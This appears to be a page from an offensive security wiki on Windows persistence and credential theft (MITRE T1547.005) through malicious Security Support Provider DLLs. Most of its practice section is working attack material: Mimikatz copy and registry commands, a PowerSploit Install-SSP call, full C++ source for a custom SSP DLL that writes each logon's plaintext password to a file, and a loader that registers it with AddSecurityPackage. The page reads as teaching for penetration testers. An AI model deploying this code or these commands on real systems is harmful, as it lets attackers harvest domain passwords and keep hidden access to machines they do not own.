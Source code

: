 ```yaml
---
description: >-
  MITRE ATT&CK™ Boot or Logon Autostart Execution: Security Support Provider -
  Technique T1547.005
---
```


# Security Support Provider DLLs

## Theory

We may abuse [security support providers (SSPs)](https://learn.microsoft.com/en-us/windows-server/security/windows-authentication/security-support-provider-interface-architecture) to execute DLLs when the system boots. Windows SSP DLLs are loaded into the Local Security Authority (LSA) process at system start. Once loaded into the LSA, SSP DLLs have access to encrypted and plaintext passwords that are stored in Windows, such as any logged-on user's Domain password or smart card PINs.

## Practice

{% hint style="danger" %}
We won't be able to make it work If [LSA protection (RunAsPPL)](https://learn.microsoft.com/en-us/windows-server/security/credentials-protection-and-management/configuring-additional-lsa-protection#enable-by-using-the-registry) is enabled. Loaded SSP DLLs will have to be signed by Microsoft as LSASS.exe will run as a [Protected Process Light (PPL)](https://learn.microsoft.com/en-us/windows/win32/services/protecting-anti-malware-services-#system-protected-process).
{% endhint %}

We may modify LSA Registry keys to add new SSPs which will be loaded the next time the system boots, or when the AddSecurityPackage Windows API function is called. The SSP configuration is stored in this two Registry keys:

* `HKLM\SYSTEM\CurrentControlSet\Control\Lsa\Security Packages`
* `HKLM\SYSTEM\CurrentControlSet\Control\Lsa\OSConfig\Security Packages`.&#x20;

{% tabs %}
{% tab title="Mimikatz" %}
The [Mimikatz](https://github.com/gentilkiwi/mimikatz/releases) project provides a DLL file (mimilib.dll) that can be used as a malicious SSP DLL that will log credentials in this file:

```powershell
C:\Windows\System32\kiwissp.log 
```

First, you will have to copy mimilib.dll in System32

```powershell
copy C:\Windows\Temp\mimilib.dll C:\Windows\System32\mimilib.dll
```

Then, edit LSA registry keys to include the new security support provider

```powershell
reg add "hklm\system\currentcontrolset\control\lsa\" /v "Security Packages" /d "kerberos\0msv1_0\0schannel\0wdigest\0tspkg\0pku2u\0mimilib" /t REG_MULTI_SZ /f
```
{% endtab %}

{% tab title="PowerSploit" %}
[PowerSploit](https://attack.mitre.org/software/S0194)'s `Install-SSP` Persistence module can be used to install a SSP DLL.

```powershell
Import-Module .\PowerSploit.psm1
Install-SSP -Path .\mimilib.dll
```
{% endtab %}

{% tab title="Custom DLL" %}
Below is the code, originally taken from [mimikatz](https://github.com/gentilkiwi/mimikatz), adapted and refactored, that we can compile as our own Security Support Provider DLL. It intercepts authenticatin details and saves them to a file `c:\temp\lsa-pwned.txt`:

{% code title="sspcutsom.cpp" %}
```cpp
#include "stdafx.h"
#define WIN32_NO_STATUS
#define SECURITY_WIN32
#include <windows.h>
#include <sspi.h>
#include <NTSecAPI.h>
#include <ntsecpkg.h>
#include <iostream>
#pragma comment(lib, "Secur32.lib")

NTSTATUS NTAPI SpInitialize(ULONG_PTR PackageId, PSECPKG_PARAMETERS Parameters, PLSA_SECPKG_FUNCTION_TABLE FunctionTable) { return 0; }
NTSTATUS NTAPI SpShutDown(void) { return 0; }

NTSTATUS NTAPI SpGetInfo(PSecPkgInfoW PackageInfo)
{
	PackageInfo->Name = (SEC_WCHAR *)L"SSPCustom";
	PackageInfo->Comment = (SEC_WCHAR *)L"SSPCustom <o>";
	PackageInfo->fCapabilities = SECPKG_FLAG_ACCEPT_WIN32_NAME | SECPKG_FLAG_CONNECTION;
	PackageInfo->wRPCID = SECPKG_ID_NONE;
	PackageInfo->cbMaxToken = 0;
	PackageInfo->wVersion = 1;
	return 0;
}

NTSTATUS NTAPI SpAcceptCredentials(SECURITY_LOGON_TYPE LogonType, PUNICODE_STRING AccountName, PSECPKG_PRIMARY_CRED PrimaryCredentials, PSECPKG_SUPPLEMENTAL_CRED SupplementalCredentials)
{
	HANDLE outFile = CreateFile(L"c:\\temp\\lsa-pwned.txt", FILE_GENERIC_WRITE, 0, NULL, OPEN_ALWAYS, FILE_ATTRIBUTE_NORMAL, NULL);
	DWORD bytesWritten = 0;
	
	std::wstring log = L"";
	std::wstring account = AccountName->Buffer;
	std::wstring domain = PrimaryCredentials->DomainName.Buffer;
	std::wstring password = PrimaryCredentials->Password.Buffer;

	log.append(account).append(L"@").append(domain).append(L":").append(password).append(L"\n");
	WriteFile(outFile, log.c_str(), log.length() * 2, &bytesWritten, NULL);
	CloseHandle(outFile);
	return 0;
}

SECPKG_FUNCTION_TABLE SecurityPackageFunctionTable[] = 
{
	{
		NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL,	SpInitialize, SpShutDown, SpGetInfo, SpAcceptCredentials, NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL 
	}
};

// SpLsaModeInitialize is called by LSA for each registered Security Package
extern "C" __declspec(dllexport) NTSTATUS NTAPI SpLsaModeInitialize(ULONG LsaVersion, PULONG PackageVersion, PSECPKG_FUNCTION_TABLE *ppTables, PULONG pcTables)
{
	*PackageVersion = SECPKG_INTERFACE_VERSION;
	*ppTables = SecurityPackageFunctionTable;
	*pcTables = 1;
	return 0;
}
```
{% endcode %}

Then, here is a code that loads the malicious SSP custom.dll:

{% code title="load_ssp.cpp" %}
```cpp
#define WIN32_NO_STATUS
#define SECURITY_WIN32
#include <windows.h>
#include <sspi.h>
#include <NTSecAPI.h>
#include <ntsecpkg.h>
#pragma comment(lib, "Secur32.lib")

int main()
{
	SECURITY_PACKAGE_OPTIONS spo = {};
	SECURITY_STATUS ss = AddSecurityPackageA((LPSTR)"c:\\temp\\sspcutsom.dll", &spo);
	return 0;
}
```
{% endcode %}
{% endtab %}
{% endtabs %}

### In-memory DLL injection - Credential Access

We may directly inject [SSP DLLs](https://learn.microsoft.com/en-us/windows-server/security/windows-authentication/security-support-provider-interface-architecture) into memory. It prevent us from editing registries but using this approach, it will not persist accross reboots.

{% content-ref url="../../../ad/movement/credentials/dumping/lsass/security-support-provider-dlls.md" %}
[security-support-provider-dlls.md](../../../ad/movement/credentials/dumping/lsass/security-support-provider-dlls.md)
{% endcontent-ref %}

## Resources

{% embed url="https://attack.mitre.org/techniques/T1547/005/" %}

{% embed url="https://pentestlab.blog/2019/10/21/persistence-security-support-provider/" %}

{% embed url="https://www.ired.team/offensive-security/credential-access-and-credential-dumping/intercepting-logon-credentials-via-custom-security-support-provider-and-authentication-package" %}
